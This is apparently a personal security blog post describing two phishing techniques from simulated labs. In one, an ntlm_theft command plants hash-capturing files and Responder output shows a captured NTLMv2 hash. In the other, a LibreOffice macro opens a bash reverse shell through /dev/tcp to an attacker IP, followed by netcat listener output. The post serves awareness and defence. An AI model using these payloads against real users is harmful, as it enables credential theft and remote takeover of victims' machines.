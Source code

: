 +++
title = "Bait, Hook, and Hack"
description = "Few tactics and techniques behind phishing attacks i have came accrossed in simulated labs xD"
date = 2024-09-07T07:40:10+01:00
+++

Phishing is like fishing with a twist—except instead of catching fish, you're trying to reel in sensitive information. Cybercriminals use cunning tactics to craft emails and websites that look all too real, hoping you'll bite. In this post, we're going to break down the phishing process from the initial bait to the final hook. You'll learn how these attacks are set up, how to spot them, and what you can do to protect yourself.

![](https://i.pinimg.com/originals/69/d8/57/69d857971d2740bad7ba184aa1ffc52e.gif#center)

In my simulated lab experiences, I’ve encountered several phishing scenarios that highlight the sophistication of these attacks. From deceptive emails that mimic trusted sources to cleverly disguised phishing websites, these examples offer valuable insights into how attackers operate. Understanding these tactics not only helps in recognizing potential threats but also enhances your ability to defend against them effectively.



## **Scenario 1 : Linking to Trouble**


In this scenario, we delve into the art of crafting a seemingly innocent `.lnk` file, but with a malicious twist. Our approach involves creating a `.lnk` file designed to exploit vulnerabilities in the Windows environment. We start by creating this file with the following tool called "[`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft.git)" created by ***Green Wolf***.



![](https://i.imgur.com/NhM27Ou.png)



```bash
############ Command Breakdown ##############
# -g: generate all file formats
# -s: IP SMB hash capture server (Responder, smbserver.py)
# -f: Base filename without extension

python3 ntlm_theft.py -g all -s 10.11.69.221 -f secfortress
```



Once this nefarious file is crafted and uploaded to a shared SMB location, it awaits an unsuspecting victim. When the user interacts with the file, it silently triggers a process that captures and returns their NTLM hash. Before deploying our malicious `.lnk` file, it’s crucial to ensure that we have the necessary write access to an SMB share, or an alternative method for file transfer such as `FTP` or `IMAP`.


![](https://i.imgur.com/TsEKR40.png)


> As demonstrated, ensuring that a user (with malicious intent) has write access to an SMB share is crucial for delivering a valid payload. This access allows the attacker to upload the malicious `.lnk` file to the share. However, this scenario isn't always straightforward. In some trusted environments, users may be granted extensive privileges, including the ability to upload files to areas that are implicitly trusted. Consequently, files uploaded to these locations are often accepted without scrutiny, making them prime targets for exploitation. This highlights the importance of monitoring and restricting file uploads in trusted areas to mitigate potential risks.


![](https://i.imgur.com/lDlpwrP.png#center)



We can then intercept this valuable hash, opening the door to further exploitation. This technique highlights the power of seemingly benign files and the critical importance of vigilance against such subtle threats. By understanding and simulating these attacks, you gain insight into the sophisticated methods attackers use to compromise systems and the steps you can take to defend against them.



```bash
❯ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]

--SNIP--

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.165.30
[SMB] NTLMv2-SSP Username : REDACTED\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::REDACTED:9bbf8934331a4560:7E3E7EB81FF46C2022052D262FF86FED:0101000000000000804E1194E3EEDA012C0D0C83CBDD665900000000020008004F0031003400450001001E00570
049004E002D004300420041003200580050004B00420052005500300004003400570049004E002D004300420041003200580050004B0042005200550030002E004F003100340045002E004C004F00430041004C00030014004F00310034004
5002E004C004F00430041004C00050014004F003100340045002E004C004F00430041004C0007000800804E1194E3EEDA0106000400020000000800300030000000000000000100000000200000452F70F2B66A34630BD52340E899C3B9A07
2F2D5A53D205FCBB235EA806B7FB60A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200330035000000000000000000
[*] Skipping previously captured hash for REDACTED\Tracy.White
```


## **Scenario 2 : Macro Mayhem**

We’ve seen a surge in `VBS` macro-based attacks recently, such as **CVE-2023-23399** and **CVE-2023-28311**, which have exploited vulnerabilities in common office software. In this section, we'll provide a quick guide on how to manually generate similar malicious macros. From embedding them into documents using tools like LibreOffice or Microsoft Excel, to executing them on a target system for a potential reverse shell.

Below is a short example of crafting a malicious macro in LibreOffice, designed to open a reverse shell to a remote attacker:

{{< drive id="1eht1kZT8IVZF5-2AWZnSfPAz2EACGEJq" type="preview" >}}


 **Breaking Down the Macro**

- **`REM ***** BASIC *****`**: This line denotes the beginning of a macro script written in LibreOffice BASIC, which is a scripting language similar to Visual Basic for Applications (VBA).

- **`Sub Main`**: Defines the start of the macro subroutine named "Main." This is where the script begins execution when triggered.

- **`shell(...)`**: This command executes a shell command on the target system. Here, it uses the `bash` shell to initiate a reverse shell connection.

- **`bash -c 'bash -i >& /dev/tcp/192.168.0.158/4444 0>&1'`**: This is the core payload. It runs a bash command that creates an interactive reverse shell, sending input and output to the attacker's IP (`192.168.0.158`) over TCP port `4444`. When executed, it effectively gives the attacker remote control of the target system.

- **`End Sub`**: Marks the end of the macro subroutine.

Getting a reverse shell is as simple as sending the malicious `.odt` file to your unsuspecting colleague who "clicks everything," and waiting for them to open it. Once they do, the reverse shell pops on the attacker's listener, as long as the target uses Bash or any Linux OS.


![](https://i.imgur.com/6oBaIwd.png#center)


By embedding this macro into a document and enticing the target to enable macros upon opening, the attacker can establish a reverse shell, gaining unauthorized access to the target system. This example highlights how easy it is to weaponize common office documents, and it underscores the importance of exercising caution with any files that prompt you to enable macros.


```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.158 33474
bash: cannot set terminal process group (1654): Inappropriate ioctl for device
bash: no job control in this shell
sec-fortress@Pwn-F0rk-3X3C:~$ whoami
whoami
sec-fortress
```

## **Closing the Net**


![](https://i.pinimg.com/originals/fb/7d/81/fb7d811ce69c58730714a38ede4d4d3e.gif#center)

As we close the chapter on phishing, remember that staying one step ahead of cyber criminals is key. From sneaky `.lnk` files to crafty macros, these attacks exploit human trust and technical vulnerabilities. By understanding these methods, you can better protect yourself and your organization. Always be cautious with unexpected files and links, and never hesitate to verify their legitimacy. With awareness and vigilance, you can turn the tables on these digital predators and keep your information secure. Stay alert, stay informed, and keep phishing at bay! 

**Take note that this is based on my experiences in simulated labs, and there are many more phishing techniques out there. The landscape of phishing is constantly evolving, so staying updated and informed is crucial.**


## **Resources**


- [Phishing methodology](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology)
